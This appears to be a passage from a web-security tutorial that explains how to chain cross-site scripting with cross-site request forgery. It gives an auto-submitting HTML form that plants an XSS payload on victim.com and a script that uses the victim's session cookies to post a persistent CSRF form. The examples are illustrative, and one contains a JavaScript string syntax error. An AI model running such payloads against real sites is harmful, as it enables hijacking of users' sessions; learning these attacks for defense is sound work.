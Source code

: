 #### **How It Works:**
- The attacker injects the script via XSS.
- The script forges a `POST` request to the target server, leveraging the victim’s session.

---

### **B. CSRF to Trigger XSS**
Using CSRF to inject malicious scripts into an application that does not properly sanitize user input.

#### **Example:**
```html
<html>
  <body>
    <script>
      const form = document.createElement('form');
      form.method = 'POST';
      form.action = 'http://victim.com/comment';

      const input = document.createElement('input');
      input.type = 'hidden';
      input.name = 'comment';
      input.value = '<script>alert("PWNED")</script>';
      form.appendChild(input);

      document.body.appendChild(form);
      form.submit();
    </script>
  </body>
</html>
```

#### **How It Works:**
- CSRF injects a payload containing an XSS vector into a form.
- The malicious script executes when the vulnerable application reflects the input.

---

### **C. Chaining XSS with CSRF for Persistence**
Use XSS to insert a persistent CSRF payload into the application, which gets executed later.

#### **Example Payload:**
```html
<script>
  const csrfPayload = '<form method="POST" action="http://victim.com/submit">
    <input type="hidden" name="param" value="value">
  </form>';

  fetch('http://victim.com/comment', {
    method: 'POST',
    credentials: 'include',
    body: JSON.stringify({ comment: csrfPayload })
  });
</script>
```
